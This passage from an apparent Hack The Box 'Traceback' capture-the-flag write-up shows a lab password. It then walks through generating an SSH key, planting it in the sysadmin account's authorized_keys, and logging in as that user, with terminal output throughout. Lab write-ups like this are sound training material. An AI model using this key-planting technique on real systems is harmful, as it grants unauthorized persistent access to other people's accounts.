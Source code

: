 Credentials `Password: hello`

```bash
─[babayaga@babayaga-virtualbox]─[~/Desktop/HTB/Linux/Traceback/exploit]
└──╼ $ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/babayaga/.ssh/id_rsa): traceback_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in traceback_rsa
Your public key has been saved in traceback_rsa.pub
The key fingerprint is:
SHA256:m2YazV0QAAENUTslPSTkk87Lmb5ChAc+t0psGlxCtjo babayaga@babayaga-virtualbox
The key's randomart image is:
+---[RSA 3072]----+
|    +BB=+..      |
| o.  ..*o  .     |
|o..o  *  ..      |
| o+.+o o   .     |
|o.o= .o S   .    |
|E.+ o. * + .     |
| * o  * B .      |
|. . .. =         |
|     .+.         |
+----[SHA256]-----+
```

#### Adding traceback_rsa.pub to authorized hosts
```bash
sysadmin@traceback:~/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC2IOkdCCivjc05A/Wt1xpbpdXQECh8CzO/5prqe+S2JzCFWsPPtlpSxmW72czq3I9CzdP7RLC+lMPhY0px6XLJkMdho0lkniB5UdpPYbxcH7ZqQB1DhF1bD+zLHHb8pBWm
+5Kg47X810Apay6FD+tlolz6u4ptSpjqJZv583powht0PQ4ITRwiIJOEbt8E5fpTPCJ8TTb2MxNvtpwh9M3zGhzWDQxSapsjI1/DMZoGIf+MJleC5mawJ5AaCOcYI96kAG4a78GVVLlHNNhB9PDqDlv37x2rF+1GH+7P0d3M
0gzqYzeCYhvEPTH2UX7GCoGY8wArS/dFguzuMzPqsQhj9fY69XQEloGkUVc46bJ0lEY/IzL5wLYOVHa+TymQSPxdXeCPwvD4KdK80ZHNUcAd0N6jKMJKhnwgGsExW5u5MisBixSYTxWGgUSynQgUolSspAoCbby5cnCPIO0O
8JRd6zbe0uvNkL5fQ9YFaPI+46q5KwYAKbAU3m3UXQD3RXs= babayaga@babayaga-virtualbox
```

#### Logging in as sysadmin
```bash
┌─[babayaga@babayaga-virtualbox]─[~/Desktop/HTB/Linux/Traceback/exploit]
└──╼ $ssh -i traceback_rsa sysadmin@traceback.htb
The authenticity of host 'traceback.htb (10.129.114.213)' can't be established.
ECDSA key fingerprint is SHA256:7PFVHQKwaybxzyT2EcuSpJvyQcAASWY9E/TlxoqxInU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'traceback.htb,10.129.114.213' (ECDSA) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Enter passphrase for key 'traceback_rsa': 
Enter passphrase for key 'traceback_rsa': 

Welcome to Xh4H land 



Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
$ 
```
